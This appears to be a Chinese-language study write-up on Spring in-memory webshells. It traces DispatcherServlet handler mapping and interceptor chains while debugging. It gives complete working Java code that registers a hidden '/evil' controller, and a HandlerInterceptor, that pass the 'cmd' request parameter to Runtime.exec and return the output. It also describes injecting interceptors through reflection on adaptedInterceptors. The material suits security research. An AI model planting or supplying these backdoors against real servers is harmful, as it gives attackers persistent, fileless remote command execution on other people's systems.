

请求流程：

1. 请求首先经过Tomcat的Filter链
2. 进入Spring的DispatcherServlet
3. 根据请求找到对应的处理方法



将请求映射到正确的Controller方法是在DispatcherServlet的doDispatch方法中实现的，于是我们重点分析这个方法。



可以看到这里有个mappedHandler里储存了handler，这个handler就是index路径对应的Controller接口



所以我们找mappedHandler是在哪里获取



看到是调用了getHandler方法获取，获取请求所对应的handler

而这个processedRequest就包含了请求的信息，比如路径、url、请求方法



继续跟到getHandler方法中



这里就是有一个handlerMappings列表，这个list中有多个xxxMapping



如果这5个mapping中的mapping对象中任意一个的getHandler方法能返回处理当前请求的handler，则直接返回此handler。如果所有mapping的getHandler方法都不能返回处理此请求的对应handler，则返回null。

在return handler处打一个断点，看一看是哪一个mapping获取到的handler



发现这个Mapping对象是RequestMappingHandlerMapping类。

看看RequestMappingHandlerMapping.getHandler()方法体中写了什么。

右键mapping变量，然后选择跳转类型源，然后alt+7查看实体，没有发现getHandler方法，说明是父类中的方法

查看父类RequestMappingInfoHandlerMapping，发现还是没有，继续往上查AbstractHandlerMethodMapping

还是没有继续找父类

在AbstractHandlerMapping中找到getHandler方法



在Object handler = getHandlerInternal(request);处打断点

F7步进AbstractHandlerMethodMapping.getHandlerInternal()查看实现



这里实际处理应该是return super.getHandlerInternal(request);

所以继续步进



看到这里的handlerMethod是调用lookupHandlerMethod方法得到的

传入了两个参数分别是请求路径lookupPath以及请求request

继续查看lookupHandlerMethod()的实现




关注方法第二行出现的mappingRegistry属性，在调式窗口中查看这个属性存储了什么，发现mappingRegistey是一个map，存储了路径和RequestMappingInfo对象的映射关系。



这里的key就是路径，value就是路径对应的处理方法

然后我们就需要搞清楚怎么拿到这个map然后在其中注册一个处理方法，并且映射到指定路径上

查看对mappingRegistry变量的引用操作

发现存在AbstractHandlerMethodMapping.registerHandlerMethod()方法



这个方法需要传入三个参数分别是mapping、handler、method，通过这个方法就能把我们自己的方法注册进去

问题变成了在Spring程序运行中怎么拿到AbstractHandlerMethodMapping子类实例对象

刚刚调试的过程中看到RequestMappingHandlerMapping对象实例是存在的，并且获取到了/index对应的Controller方法的，还有就是父类有的方RequestMappingHandlerMapping作为子类肯定也有。

所以我们只需要**取到RequestMappingHandlerMapping对象**就可以。

之前发现**RequestMappingHandlerMapping对象存储在DispatcherServelet.handlerMappings这个list中**，我们去看看这个list是怎么获取到的，查找引用找到这个list最初的赋值



这里如果detectAllHandlerMappings为真，就会从BeanFactoryUtils.beansOfTypeIncludingAncestors(context, HandlerMapping.class, true, false);中获取所有的HandlerMappings，并且赋值给handlerMappings

**否则就会从context.getBean()中获取一个指定名称的handlerMapping**

这里既然HandlerMapping可以通过context来获取，所以从context中获取是非常方便的做法，所以我们只要获取context就能调用getBean()

发现这个context是ApplicationContext

所以我们想办法来获取这个context



---

之前的doService类中给request定义了一堆的属性



而这堆属性中就有一个WEB_APPLICATION_CONTEXT_ATTRIBUTE，追到getWebApplicationContext()方法中


发现返回的是this.webApplicationContext，而this.webApplicationContext也就是WebApplicationContext类的对象

查看发现这个WebApplicationContext类是我们要获取的ApplicationContext类的子类


既然是ApplicationContext类的子类，自然可以访问它的所有方法，所以我们只需要在request中把WebApplicationContext拿到即可

```
request.setAttribute(WEB_APPLICATION_CONTEXT_ATTRIBUTE, getWebApplicationContext());
```

在request中叫`WEB_APPLICATION_CONTEXT_ATTRIBUTE`

然后就可以写注入代码了

---

### 示例代码

```
@RestController
public class MyController {
    @RequestMapping("/hello")
    public String hello()
    {
        return "hello world";
    }
    @RequestMapping("/inject/controller")
    public String injectController() throws NoSuchMethodException {
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.getRequestAttributes().getAttribute(DispatcherServlet.WEB_APPLICATION_CONTEXT_ATTRIBUTE,0);
        RequestMappingHandlerMapping mapping = context.getBean(RequestMappingHandlerMapping.class);
        InjectController injectController = new InjectController();
        RequestMappingInfo info = new RequestMappingInfo(
                new PatternsRequestCondition("/evil"),
                new RequestMethodsRequestCondition(),
                null, null, null, null, null);

        mapping.registerMapping(info,injectController, injectController.getClass().getMethod("evil"));
        return "inject controller success";
    }
 	@RestController
    public class InjectController {
        public String evil() throws IOException {
            HttpServletRequest request = ((ServletRequestAttributes)RequestContextHolder.getRequestAttributes()).getRequest();
            String cmd = request.getParameter("cmd");
            Runtime r = Runtime.getRuntime();
            StringBuilder sb = new StringBuilder();
            try{
                Process proc = r.exec(cmd);
                BufferedReader reader = new BufferedReader(new InputStreamReader(proc.getInputStream()));
                String line = null;
                while ((line = reader.readLine()) != null){
                    sb.append(line).append("\n");
                }
            } catch (IOException e) {
                throw new RuntimeException(e);
            }
            return sb.toString();
        }
    }
}
```

完整实验代码

```
package com.example.demo.demos.web;

import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RestController;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestAttributes;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.DispatcherServlet;
import org.springframework.web.servlet.mvc.condition.PatternsRequestCondition;
import org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.servlet.http.HttpServletRequest;
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;

@RestController
public class MyController {
    @RequestMapping(value = "/index")
    public String index() {
        return "index";
    }

    @RequestMapping(value = "/inject")
    public String inject() throws NoSuchMethodException {
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.getRequestAttributes().getAttribute(DispatcherServlet.WEB_APPLICATION_CONTEXT_ATTRIBUTE,0);
        RequestMappingHandlerMapping mapping = context.getBean(RequestMappingHandlerMapping.class);
        InjectController injectController = new InjectController();
        RequestMappingInfo info = new RequestMappingInfo(
                new PatternsRequestCondition("/evil"),
                new RequestMethodsRequestCondition(),
                null,null,null,null,null);

        mapping.registerMapping(info,injectController,injectController.getClass().getMethod("evil"));
        return "inject";
    }

    @RestController
    public class InjectController {
        public String evil() throws IOException {
            HttpServletRequest request = ((ServletRequestAttributes)RequestContextHolder.getRequestAttributes()).getRequest();
            String cmd = request.getParameter("cmd");
            Runtime r = Runtime.getRuntime();
            StringBuilder sb = new StringBuilder();
            try{
                Process proc = r.exec(cmd);
                BufferedReader reader = new BufferedReader(new InputStreamReader(proc.getInputStream()));
                String line = null;
                while ((line = reader.readLine()) != null){
                    sb.append(line).append("\n");
                }
            } catch (IOException e) {
                throw new RuntimeException(e);
            }
            return sb.toString();
        }
    }

}

```

直接访问/evil发现会报错404找不到。

先访问/inject触发注入，然后/evil?cmd=whoami


成功执行命令并回显。

---


## Spring Interceptor内存马

### 尝试写一个Interceptor

还是之前的spring boot环境

先写一个HelloController

```
package com.example.demo.demos.web;

import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RestController;

import java.sql.SQLOutput;

@RestController
public class HelloController {

    @RequestMapping(value = "/hello")
    public String hello() {
        System.out.println("Hello World");
        return "Hello World";
    }
}

```

然后写HelloInterceptor拦截器

```
package com.example.demo.demos.web;

import org.springframework.web.servlet.HandlerInterceptor;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.BufferedReader;
import java.io.InputStreamReader;

public class HelloInterceptor implements HandlerInterceptor {

    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
        String cmd = request.getParameter("cmd");
        if (cmd != null) {
            Process exec = Runtime.getRuntime().exec(cmd);
            BufferedReader reader = new BufferedReader(new InputStreamReader(exec.getInputStream()));
            String line;
            while ((line = reader.readLine()) != null) {
                response.getWriter().println(line);
            }
            return false;
        }
        return true;
    }
}

```

接收cmd参数然后用Runtime.exec()命令执行并写入响应

然后写WebConfig，把拦截器注册进去

```
package com.example.demo.demos.web;


import org.springframework.context.annotation.Configuration;
import org.springframework.web.servlet.HandlerInterceptor;
import org.springframework.web.servlet.config.annotation.EnableWebMvc;
import org.springframework.web.servlet.config.annotation.InterceptorRegistry;
import org.springframework.web.servlet.config.annotation.WebMvcConfigurer;
import org.springframework.web.servlet.config.annotation.WebMvcConfigurerAdapter;


@Configuration
@EnableWebMvc
public class WebConfig implements WebMvcConfigurer {

    @Override
    public void addInterceptors(InterceptorRegistry registry){
        registry.addInterceptor(new HelloInterceptor()).addPathPatterns("/hello");
    }
}

```

`addPathPatterns("/hello")`表示限定对/hello路径起作用，如果不加则对所有路径起作用，这里/hello必须有对应的controller，否则无法触发

 然后运行访问/hello?cmd=whoami

成功触发


---

### 调试过程

看一下Interceptor是怎么注册的，在preHandle方法处打断点，然后开启调试模式，然后重新访问`http://localhost:8080/hello?cmd=whoami`

看到熟悉的类DispatcherServlet的doDispatch方法


这个方法的作用是正确的将请求交给目标Handler去执行


可以看到这里的Handler就是我们的HelloController，并且在interceptorList里还拿到了3个拦截器，其中就有我们的HelloInterceptor

然后就去找interceptorList是怎么被DispatcherServlet获取到的，interceptorList是mappedHandler中的属性，所以我们要找mappedHandler是怎么得到的

发现在`mappedHandler = getHandler(processedRequest);`处获取


在此处打上断点，停止程序，重新运行然后刷新

F7步进到DispatcherServlet.getHandler()


**这里就是Mapping对象是RequestMappingHandlerMapping类，所以RequestMappingHandlerMapping获取到的handler**

发现没有获取拦截器的步骤，所以我们F8步过到mapping.getHandler(request)再步入进去


到HandlerExecutionChain.getHandler()

还是没发现获取拦截器的步骤，继续步进到`HandlerExecutionChain executionChain = getHandlerExecutionChain(handler, request);`

然后步入

进到HandlerExecutionChain.getHandlerExecutionChain()


可以看到这里有添加拦截器的操作**chain.addInterceptor()**

这里有个遍历操作，**从this.adaptedInterceptors**中获取拦截器然后一个个进行添加

所以我们只需要把自己写的拦截器添加到这个列表中即可

**而当前类是AbstractHandlerMapping，这个类在Spring Controller内存马学习中我们知道这个类有个子类为RequestMappingHandlerMapping，这里拿到的，而这个子类的实例对象我们可以通过WebApplicationContext拿到**


虽然adaptedInterceptors是私有变量，但是我们可以通过反射获取，然后在运行时动态添加进去

最后在执行的过程中getHandler的时候就会从mappedHandler.interceptorList中拿到我们写的Interceptor拦截器

并且在下面的mapperdHandler.applyPreHandler()中将interceptorList中所有拦截器都执行一遍


